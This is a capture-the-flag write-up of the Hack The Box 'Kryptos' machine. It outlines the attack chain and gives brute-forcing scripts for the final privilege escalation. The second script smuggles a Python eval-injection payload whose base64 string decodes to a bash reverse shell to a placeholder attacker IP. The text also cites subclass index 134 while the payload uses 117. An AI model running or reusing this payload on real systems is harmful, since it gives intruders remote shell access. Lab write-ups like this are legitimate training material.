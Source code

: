 # Kryptos (PDO Injection, SQLite3 RCE, Python Eval Injection)

KryptOS is an insane difficulty Linux box which requires knowledge of how cryptographic
algorithms work. A login page is found to be vulnerable to PDO injection, and can be hijacked to
gain access to the encrypting page. The page uses RC4 to encrypt files, which can be subjected
to a known plaintext attack. This can be used to abuse a SQL injection in an internal web
application to dump code into a file, and execute it to gain a shell. A `Vimcrypt` file is found, which
uses a broken algorithm and can be decrypted. A vulnerable python app running on the local
host is found using a weak RNG (Random Number Generator) which can be brute forced to gain
RCE via the `eval` function.

# Skills Learned:

- PDO Injection
- Exploiting RC4 flaws
- RCE via SQLite3
- Decrypting Vimcrypt files
- Analysing RNG
- Python eval injection

# Problems I Ran Into

1. Priv Esc (Python eval injection)
    - Following the official walkthrough by HTB, there is a `[brute.py](http://brute.py)` script that you have to run to test if the server is vulnerable and to the get the signature being used
    - The script given in the walkthrough gave me problems so I had to tweak it a bit. Here is the script I used:
    
    ```python
    #!/usr/bin/python
    import requests
    import json
    import hashlib
    import binascii
    from ecdsa import VerifyingKey, SigningKey, NIST384p
    url = 'http://127.0.0.1:81/eval'
    uniq_vals = open("uniq.txt").readlines() # uniq.txt is the list of unique values found from rng.py
    expr = "900 + 1"
    def sign(msg, sk):
    	return binascii.hexlify(sk.sign(msg))
    
    for rand in uniq_vals:
    	sk = SigningKey.from_secret_exponent(int(rand), curve=NIST384p)
    	sig = sign(expr, sk)
    	data = { "expr" : expr , "sig" : sig }
    	res = requests.post( url, json = data )
    	print res.text
    	if "Bad" not in res.text:
    		print "Found signature {}".format(sig)
    		print res.text
    		print "Rand: {}".format(rand) # the unique value from uniq.txt
    		print "KEEP NOTE OF THE RAND"
    		break
    ```
    
    - After I found the signature and uniq rand, I tweaked the script again, but after I found where the `os` class is located in python
    - To find the `os` class do the following:
        - open python interpreter in the command line
        
        ```python
        >>> count = 0
        >>> for i in [].__class__.__base__.__subclasses__():
        ...    print(count)
        ...    count += 1
        ...    print(i)
        ...
        
        ```
        
        - `<class 'os.wrap_close'>` is found to be number 134
    - Set up your nc listener and run the following tweaked `brute.py`
    - Now here is the tweaked `[brute.py](http://brute.py)` :
    
    ```python
    #!/usr/bin/python
    import requests
    import json
    import hashlib
    import binascii
    from ecdsa import VerifyingKey, SigningKey, NIST384p
    url = 'http://127.0.0.1:81/eval'
    uniq_vals = open("uniq.txt").readlines()
    expr = "[].__class__.__base__.__subclasses__().__getitem__(117).__init__.__globals__['system']('echo YmFzaCAtaSA+JiAvZGV2L3RjcC88QVRUQUNLRVIgSVA+LzEyMzQgMD4mMQ== | base64 -d | bash')"
    
    def sign(msg, sk):
    	return binascii.hexlify(sk.sign(msg))
    
    rand = 59763658961195455702488250327064726633945798537104807246171656262148712073505
    sk = SigningKey.from_secret_exponent(int(rand), curve=NIST384p)
    sig = sign(expr, sk)
    data = { "expr" : expr , "sig" : sig }
    res = requests.post( url, json = data )
    
    if "Bad" not in res.text:
    	print "Found signature {}".format(sig)
    	print res.text
    ```